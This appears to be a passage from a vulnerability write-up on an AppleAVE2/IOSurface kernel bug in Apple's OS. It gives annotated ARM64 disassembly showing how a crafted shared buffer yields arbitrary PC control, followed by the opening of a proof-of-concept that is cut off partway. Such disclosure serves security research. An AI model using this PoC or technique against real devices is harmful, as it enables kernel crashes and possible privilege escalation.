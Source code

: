 The `IOSurfaceBufferMngr` destructor wraps directly around a static `IOSurfaceBufferMngr::RemoveBuffer` call:

```
IOSurfaceBufferMngr *IOSurfaceBufferMngr::~IOSurfaceBufferMngr(IOSurfaceBufferMngr *this)
{
  IOSurfaceBufferMngr::RemoveBuffer(this);
  return this;
}
```

`RemoveBuffer` then calls `IOSurfaceBufferMngr::CompleteFence`, which in this case is best viewed as assembly:

```
IOSurfaceBufferMngr::CompleteFence(IOSurfaceBufferMngr *this)

                STP             X20, X19, [SP,#-0x10+var_10]!
                STP             X29, X30, [SP,#0x10+var_s0]
                ADD             X29, SP, #0x10
                MOV             X19, X0                         // x19 = x0 (controlled pointer)
                LDR             X0, [X0,#0x58]                  // Loads x0->0x58
                CBZ             X0, exit_stub                   // Exits if the value is zero 
                LDRB            W8, [X19,#0x1E]                 // Loads some byte at x19->0x1e
                CBNZ            W8, exit_stub                   // Exits if the byte is non-zero
                MOV             W1, #0
                BL              IOFence::complete
                LDR             X0, [X19,#0x58]                 // Loads x19->0x58
                LDR             X8, [X0]                        // Loads x0->0x0
                LDR             X8, [X8,#0x28]                  // Loads function pointer x8->0x28
                BLR             X8                              // Branches to fptr, giving arbitrary PC control
                STR             XZR, [X19,#0x58]

exit_stub
                LDP             X29, X30, [SP,#0x10+var_s0]
                LDP             X20, X19, [SP+0x10+var_10],#0x20
                RET
```

In essence, by crafting a userland-shared buffer you can trigger an out-of-bounds access, which will almost directly give arbitrary PC control upon closing the userclient. 

Here's a PoC for this bug, it will panic the device with a dereference to the address `0x4141414142424242`:

```
void kernel_bug_poc(io_connect_t ioconn, io_connect_t surface_ioconn)
{
    kern_return_t ret;

    {
        char open_inputStruct[0x8] = { 0 };
        char open_outputStruct[0x4] = { 0 };
        size_t open_outputStruct_size = sizeof(open_outputStruct);

        // AppleAVE2UserClient::_my_open
        ret = IOConnectCallStructMethod(ioconn, 
                                        0, 
                                        open_inputStruct, 
                                        sizeof(open_inputStruct), 
                                        open_outputStruct, 
                                        &open_outputStruct_size);
        NSLog(@"my_open: %x %s", ret, mach_error_string(ret));
    }

    // Create an IOSurface using the IOSurface client owned by MIDIServer
```